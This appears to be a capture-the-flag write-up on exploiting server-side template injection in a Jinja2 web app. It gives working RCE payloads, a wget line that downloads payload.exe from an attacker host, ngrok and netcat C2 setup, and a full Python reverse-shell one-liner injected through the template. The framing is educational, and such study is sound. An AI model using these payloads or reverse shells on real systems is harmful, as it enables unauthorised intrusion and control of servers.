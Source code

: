 # Super Space Tech Inc

## Challenge Description
Our engineers have found that one of the python web applications have been infiltrated. Try to find what the attackers have hidden!
http://chall.seccomp.xyz:5003/


## Walkthrough
Going to the challenge home page, it shows only a link (Jarvis). This link displays the following text: “Hi, Javis”. Note that the url accepts the parameter “name” and the default input is “Javis”.
![alt text](img/Picture1.png)
![alt text](img/Picture2.png)

The output appears to be printed from a template. This template is as follows:
“Hi, {name}”, where the variable “name” is the url input. 
To verify, we can inject our own input.
![alt text](img/Picture3.png)

Our input is displayed successfully. A vulnerability called Server Side Template Injection (SSTI) could be present in this web app. SSTI is a critical vulnerability as it enables the attacker to inject malicious inputs into a template and execute server side. Potential threats include unauthorised file disclosure and arbitrary code execution. The challenge title also gives a hint that it is SSTI (**S**uper **S**pace **T**ech **I**nc).

A simple test to detect SSTI is to perform a mathematical evaluation and verify if the input is rendered and reflected in the output. Inserting the input “{{7*7}}” into the url parameter prints the output of 49, confirming the existence of SSTI.
![alt text](img/Picture4.png)

In order to use the correct payload, we will need to identify the template engine. By injecting an invalid payload, an error will trigger and the engine is identified. However if the error messages are suppressed, we will need to inject language-specific payloads. Fortunately, PortSwigger has a decision tree for us to refer to: https://portswigger.net/research/server-side-template-injection
![alt text](img/Picture5.png)

In this challenge, all of these are unnecessary as the description states it is running a python web server (Jinja2).

SSTI Payloads can be found in PayloadsAllTheThings (https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md)

We will use the following payload to execute the “id” command via Remote Code Execution (RCE) in Jinja2 syntax
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```
![alt text](img/Picture6.png)

The command is executed successfully.
```
http://chall.seccomp.xyz:5003/read?name={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27id%27).read()%20}}
```
![alt text](img/Picture7.png)

List files in the directory using “ls” command.
```
http://chall.seccomp.xyz:5003/read?name={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27ls%27).read()%20}}
```
![alt text](img/Picture8.png)

The flag.txt is discovered in the directory. Obtain the flag using “cat” command.
```
http://chall.seccomp.xyz:5003/read?name={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27cat%20flag.txt%27).read()%20}}
```
![alt text](img/Picture9.png)

The flag obtained is **CZ4067{3xp1oiT_sStI}**.


## Taking a step further from REMOTE CODE EXECUTION (RCE)
The implications of a vulnerability leading to a RCE is catastrophic as it gives the attackers the ability to perform arbitrary code execution, including system commands.
Once obtaining RCE, an attacker will typically attempt to gain backdoor access into the victim’s machine to perform more malicious actions. We will demonstrate a simple Backdoor POC for the purpose of educating others on the impacts of RCE.

### Creating our payload
A common method of gaining backdoor access in Linux is to transfer a malicious payload into the victim machine via **curl** or **wget** command. However, it is discovered that neither commands are installed in this machine.

Curl command to http://google.com
```
http://chall.seccomp.xyz:5003/read?name={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27curl%20http://google.com%27).read()%20}}
```

Wget command from attacker machine
```
http://chall.seccomp.xyz:5003/read?name={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27wget%20http://AttackerIP/payload.exe%27).read()%20}}
```
![alt text](img/Picture10.png)

Fortunately, as this is a Linux machine, it will typically have Python installed. We can use the **socket.connect()** method from Python’s socket library, which establishes a TCP connection to a server. This will be our reverse shell payload.

### Setting up C2 Server and Kali netcat for listening
As the connection is made over the Internet, we will need to set up Port Forwarding in our own network. However, this will cause security issues as our Public IP Address will be disclosed. Thus, we will set up a Command and Control (C2) Server using **ngrok**. Signing up is required and installation can be found in the website: https://ngrok.com/download

Once ngrok is installed in our Kali Linux machine, we run the following command:
```console
$ ngrok tcp <internal port>
```
In this test, the internal port used is **6969**.

The service will start and traffic is now forwarded from ngrok service to our localhost
![alt text](img/Picture11.png)

Next, set up **netcat** to listen for incoming connection
```console
$ nc -lvnp 6969
```

### Executing reverse shell
The following command will be injected into the Web Server:
```console
$ python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ngrokIP",externalport));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

In summary, the Web Server will establish a connection with our C2 Server, before spawning a bash process. In this example, ngrokIP is **0.tcp.ap.ngrok.io** and externalport is **17897**.

This will be the resulting RCE command:
```
http://chall.seccomp.xyz:5003/read?name={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27python%20-c%20\%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%220.tcp.ap.ngrok.io%22,17897));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22/bin/bash%22)\%27%27).read()%20}
```

In our Kali Linux machine, a shell terminal is opened and we can interact with the Web Server directly.
![alt text](img/Picture12.png)

Having a direct connection to the victim’s machine allows the attacker to proceed with his kill chain. He can perform post-exploitation methods including but not only:
- Enumeration for Privilege Escalation, gaining root access to the machine
- Data Exfiltration
- Persistency in the machine
- Pivoting into exploiting other machines within the network

